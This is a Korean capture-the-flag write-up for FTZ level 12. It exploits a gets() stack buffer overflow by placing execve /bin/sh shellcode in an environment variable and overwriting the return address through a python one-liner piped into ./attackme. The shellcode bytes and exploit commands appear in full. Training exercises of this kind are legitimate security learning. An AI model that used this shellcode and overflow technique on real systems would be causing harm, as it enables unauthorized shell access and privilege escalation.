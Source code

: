 ```yaml
---
title:  "[FTZ] level 12"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-21 00:02:29

---
```


# level 12

**level12 / it is like this**

힌트

![image](https://user-images.githubusercontent.com/69203345/144245866-c8d46fca-5e50-46b0-a53c-bcc3ecb9335c.png)

![image](https://user-images.githubusercontent.com/69203345/144246006-4d8af91c-7b7c-4d3a-b0cf-305568326083.png)

level 11 로 들어간줄...ㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋ  

이번엔 gets로 받는다  
gets함수 역시 문자열의 길이를 확인하지 않기 때문에 버퍼오버플로우에 취약하다

![image](https://user-images.githubusercontent.com/69203345/144246984-77f63a82-415a-435d-9dea-c6c753a425b8.png)

일단 해보자  

0x08048473 <main+3>: sub esp,0x108  
char str[256]의 0x100 공간을 확보한후 dummy 0x8만큼 확보했다  
총 264byte 공간확보

0x08048479 <main+9>: sub esp,0x8  
총 272byte 공간확보

아마 스택의 구조는 level11과 같지 않을까 싶다

높은주소

[ RET(4) ]  
[ SFP(4) ]  
[ dummy(8) ]  
[ str(256) ]  

낮은주소

이번에는 환경변수로 해결  
tmp 폴더로 이동후 아래 명령어 작성

사용할 쉘 코드 주소값을 환경변수로 등록
>$export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

환경변수 SHELLCODE의 주소 값 확인
>$echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c

>$gcc getenv.c -o getenv\\$./getenv

![image](https://user-images.githubusercontent.com/69203345/144251580-8eec3861-c515-4b70-8ef4-c8f0c8f71a02.png)


0xbffffc8e 에 있다고 한다  
0xbffffc8e를 리턴 주소로 잡고 bof 시도  

gets는 입력 대기 상태에서 값을 입력받으므로 
>(python -c 'print"\x90"*268+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

python프로그램을 사용하여 \x90(1byte)를 268만큼 출력 해서 SFP까지 덮음  
RET주소에 ./getenv를 통해 출력된 쉘 코드 주소 값을 채워 넣음

![image](https://user-images.githubusercontent.com/69203345/144253095-60ad4622-522b-4515-a771-a00d03f8044a.png)

환경변수를 이용하면 깔끔하네

다음!